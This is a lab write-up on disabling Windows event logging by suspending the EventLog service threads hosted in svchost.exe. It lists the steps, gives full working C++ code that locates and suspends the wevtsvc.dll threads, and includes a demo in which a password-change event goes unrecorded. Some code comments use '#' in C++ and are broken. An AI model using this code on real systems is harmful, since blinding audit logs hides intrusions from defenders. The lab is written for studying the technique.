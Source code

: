 # Disabling Windows Event Logs by Suspending EventLog Service Threads

This lab was inspired by an old post [Phant0m: Killing Windows Event Log](https://artofpwn.com/phant0m-killing-windows-event-log.html) by [@hlldz](https://twitter.com/hlldz) where he introduced a powershell tool [Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m), which disables Windows EventLog service by killing its threads hosted by the svchost.exe.

The purpose of this quick lab is to understand some of the inner workings of Invoke-Phant0m. In particular, I wanted to play around with Windows APIs related to retrieving a process ID that hosts a given service, thread enumeration, mapping threads to a particular service \(Windows Eventlog in this case\) hosted in the svchost.exe and so on. This would give me a better understanding of how I can target specific threads when I need to, I thought.

{% hint style="info" %}
Although this lab was inspired by @hlldz' post, you will notice that we implemented the same technique in a slightly different way by levarging different Windows APIs.
{% endhint %}

## Overview

Windows event logs are handled by `EventLog` service that is hosted by svchost.exe.

If we list svchost processes, we see a number of those:

![](../../.gitbook/assets/image%20%28634%29.png)

From the above screenshot, it's not clear which process actually hosts the `EventLog` service, but if we keep inspecting `svchost.exe` processes one by one in Process Hacker, we will eventually find the process hosting the `EventLog` service, which in my case it is `svchost.exe` with pid 2196:

![](../../.gitbook/assets/image%20%28626%29.png)

Note that we can find out the PID of the process that is hosting `EventLog`:

```csharp
Get-WmiObject -Class win32_service -Filter "name = 'eventlog'" | select -exp ProcessId
```

![](../../.gitbook/assets/image%20%28668%29.png)

If we look into svchost.exe threads for `EventLog`, we see there are a couple of threads of interest as highlighted in blue:

![](../../.gitbook/assets/image%20%28708%29.png)

Below shows that indeed, suspending the threas is enough to disable the EventLog service from registering any new events:

![](../../.gitbook/assets/suspended-threads-no-events%20%281%29.gif)

Based on the above, the main goal of this lab is to hack some code to find these threads and simply suspend them and disable windows event logging this way.

{% hint style="warning" %}
Resuming threads will write out the events to the events log as if the threads had not been suspended in the first place.
{% endhint %}

## Code

Below is the code for the technique that at a high level works like this:

1. Open a handle to Service Control Manager with `OpenSCManagerA`
2. Open a handle to EventLog service with `OpenServiceA`
3. Retrieve svchost.exe \(hosting EventLog\) process ID with `QueryServiceStatusEx`
4. Open a handle to the svchost.exe process \(from step 3\)
5. Get a list of loaded modules loaded by svchost.exe `EnumProcessModules`
6. Loop through the list of `svchost` loaded modules, retrieved in step 5, find their names with `GetModuleBaseName` and find the base address of the module `wevtsvc.dll` - this is the module containing `EventLog` service inner-workings
7. Get `wevtsvc.dll` module info with `GetModuleInformation`. It will return a structure with module's start address and its image size - we will need these details later, when determiing if `EventLog` service thread's fall into wevtsvc.dll module's memory space
8. Enumerate all the threads inside svchost.exe with `Thread32First` and `Thread32Next`
9. For each thread from step 8, retrieve the thread's start address with `NtQueryInformationThread`
10. For each thread from step 8, check if the thread's start address belongs to the `wevtsvc.dll` memory space inside svchost.exe
11. If thread's start address is inside the `wevtsvc.dll` memory space, this is our victim thread and we suspend it with `SuspendThread`
12. `EventLog` service is now disabled

```cpp
#include <iostream>
#include <Windows.h>
#include <Psapi.h>
#include <TlHelp32.h>
#include <dbghelp.h>
#include <winternl.h>

#pragma comment(lib, "DbgHelp")

using myNtQueryInformationThread = NTSTATUS(NTAPI*)(
    IN HANDLE          ThreadHandle,
    IN THREADINFOCLASS ThreadInformationClass,
    OUT PVOID          ThreadInformation,
    IN ULONG           ThreadInformationLength,
    OUT PULONG         ReturnLength
    );

int main()
{
    HANDLE serviceProcessHandle;
    HANDLE snapshotHandle;
    HANDLE threadHandle;

    HMODULE modules[256] = {};
    SIZE_T modulesSize = sizeof(modules);
    DWORD modulesSizeNeeded = 0;
    DWORD moduleNameSize = 0;
    SIZE_T modulesCount = 0;
    WCHAR remoteModuleName[128] = {};
    HMODULE serviceModule = NULL;
    MODULEINFO serviceModuleInfo = {};
    DWORD_PTR threadStartAddress = 0;
    DWORD bytesNeeded = 0;

    myNtQueryInformationThread NtQueryInformationThread = (myNtQueryInformationThread)(GetProcAddress(GetModuleHandleA("ntdll"), "NtQueryInformationThread"));

    THREADENTRY32 threadEntry;
    threadEntry.dwSize = sizeof(THREADENTRY32);

    SC_HANDLE sc = OpenSCManagerA(".", NULL, MAXIMUM_ALLOWED);
    SC_HANDLE service = OpenServiceA(sc, "EventLog", MAXIMUM_ALLOWED);

    SERVICE_STATUS_PROCESS serviceStatusProcess = {};

    # Get PID of svchost.exe that hosts EventLog service
    QueryServiceStatusEx(service, SC_STATUS_PROCESS_INFO, (LPBYTE)&serviceStatusProcess, sizeof(serviceStatusProcess), &bytesNeeded);
    DWORD servicePID = serviceStatusProcess.dwProcessId;

    # Open handle to the svchost.exe
    serviceProcessHandle = OpenProcess(MAXIMUM_ALLOWED, FALSE, servicePID);
    snapshotHandle = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);

    # Get a list of modules loaded by svchost.exe
    EnumProcessModules(serviceProcessHandle, modules, modulesSize, &modulesSizeNeeded);
    modulesCount = modulesSizeNeeded / sizeof(HMODULE);
    for (size_t i = 0; i < modulesCount; i++)
    {
        serviceModule = modules[i];

        # Get loaded module's name
        GetModuleBaseName(serviceProcessHandle, serviceModule, remoteModuleName, sizeof(remoteModuleName));

        if (wcscmp(remoteModuleName, L"wevtsvc.dll") == 0)
        {
            printf("Windows EventLog module %S at %p\n\n", remoteModuleName, serviceModule);
            GetModuleInformation(serviceProcessHandle, serviceModule, &serviceModuleInfo, sizeof(MODULEINFO));
        }
    }

    # Enumerate threads
    Thread32First(snapshotHandle, &threadEntry);
    while (Thread32Next(snapshotHandle, &threadEntry))
    {
        if (threadEntry.th32OwnerProcessID == servicePID)
        {
            threadHandle = OpenThread(MAXIMUM_ALLOWED, FALSE, threadEntry.th32ThreadID);
            NtQueryInformationThread(threadHandle, (THREADINFOCLASS)0x9, &threadStartAddress, sizeof(DWORD_PTR), NULL);

            # Check if thread's start address is inside wevtsvc.dll memory range
            if (threadStartAddress >= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll && threadStartAddress <= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll + serviceModuleInfo.SizeOfImage)
            {
                printf("Suspending EventLog thread %d with start address %p\n", threadEntry.th32ThreadID, threadStartAddress);

                # Suspend EventLog service thread
                SuspendThread(threadHandle);
                Sleep(2000);
            }
        }
    }

    return 0;
}
```

## Demo

Below GIF illustrates:

* `net user ola ola` is executed and user's ola password is changed and an event `4724` logged at 6:55:30 PM
* 4 EventLog threads are suspended in svchost.exe \(PID 2196\)
* `net user ola ola` is executed again at 6:55:38 PM, but no new event `4724` is captured

![](../../.gitbook/assets/demo-suspending-eventlog-threads%20%281%29.gif)

## References

{% embed url="https://artofpwn.com/phant0m-killing-windows-event-log.html" caption="" %}

